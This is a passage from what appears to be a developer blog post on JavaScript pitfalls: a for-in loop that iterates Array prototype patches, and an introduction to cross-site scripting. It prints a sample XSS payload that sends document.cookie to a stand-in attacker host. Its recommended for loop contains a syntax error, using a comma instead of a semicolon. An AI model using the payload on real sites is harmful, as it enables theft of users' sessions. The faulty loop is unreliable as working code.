 Then, someone else decided to add some click tracking that would catch an array of data on certain clicks. It would iterate through an array - call any methods in the array and record any data.

Two years later, no one knew why one section of the website had never worked in Internet Explorer 8.

The reason? The click tracking code looked something like this:

```js
  for(var i in myArray){
    // if i is an method, call that method
    // else track the info
  }
```

Because they had added a monkey patch to Array, and because the `for in` loop iterates over all properties on a prototype chain... they were accessing the monkey patched method and calling it when they didn't mean to be calling the method and things blew up.

I spent way too long in an Internet Explorer emulator trying to figure out what was going on with that bug than I'd like to admit.

Avoid this fate by using classic `for` loops on arrays.

```js
for(var i = 0, i < myArray.length; i++) {
  //
}
```

You can see the correct way of array iteration being used [here](https://github.com/mcschatz/breakout/blob/cd05e17be5bf83b2b79554f880f8d98038dca41d/lib/game.js#L49)


#### Cross-Site Scripting (XSS) Attack Vulnerability
Cross-site Scripting is when malicious scripts are inserted into the client-side code of a web site or application. You are vulnerable to this kind of attack when you use unvalidated or unencoded user input directly in your site.

Let's say an attacker wants to steal your users cookies (I can't believe that's a real sentence in web development, but anyway... let's assume)

You could do something like that with this line of code:

```
<script>
  window.location='http://mysweethackingwebsite98736902/?cookie='+document.cookie
</script>
```

Now let's say that in your Blogger app, you take the contents of what someone types in a comment field - store it in the database - and then show it on a page.

Boom. Hacked.

Another example is - maybe you have a store online. Maybe you're selling very expensive t-shirts. Maybe you pull in information like price from the database.

Maybe you then run a sale that takes 10% off of the price and you do your calculation in JavaScript and then change the price on the page.
